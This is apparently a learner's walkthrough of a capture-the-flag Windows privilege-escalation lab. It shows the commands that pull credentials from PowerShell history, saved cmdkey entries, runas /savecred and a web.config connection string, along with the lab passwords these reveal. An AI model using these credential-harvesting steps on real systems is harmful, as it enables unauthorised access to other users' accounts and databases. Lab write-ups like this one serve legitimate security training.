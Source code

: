 Looking at our powershell history. This is actually easier from cmd.exe rather than powershell so I spawned a cmd prompt from powershell. but it is possible from PS. To quote the page:

"Note: The command above will only work from cmd.exe, as Powershell won't recognize %userprofile% as an environment variable. To read the file from Powershell, you'd have to replace %userprofile% with $Env:userprofile. "

PS C:\Users\thm-unpriv> cmd.exe
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Users\thm-unpriv>
C:\Users\thm-unpriv>type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
ls
whoami
whoami /priv
whoami /group
whoami /groups
cmdkey /?
**cmdkey /add:thmdc.local /user:julia.jones /pass:ZuperCkretPa5z**
cmdkey /list
cmdkey /delete:thmdc.local
cmdkey /list
runas /?
cmd.exe


cmdkey /list

gives us:

Domain:interactive = WPRIVESC1\mike.katz
Type: Domain Password
User: WPRIVESC1\mike.katz

Now we can run a cmd prompt as mike.katz:
runas /savecred /user:mike.katz cmd.exe 

This spawns another cmd.exe this time running as mike.katz and we can navigate to the C:\Users\mike.katz\Desktop and read the flag with
type flag.txt 

(type works a little like cat on Linux boxes)

I did Q2 out of order, but I don't suppose it matters.
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config>type web.config | findstr connectionString 

gives us the db_admin password:
connectionString="Server=thm-db.local;Database=thm-sekure;User ID=*db_admin*;Password=*098n0x35skjD3*" name="THM-DB"

Don't put credentials in code!




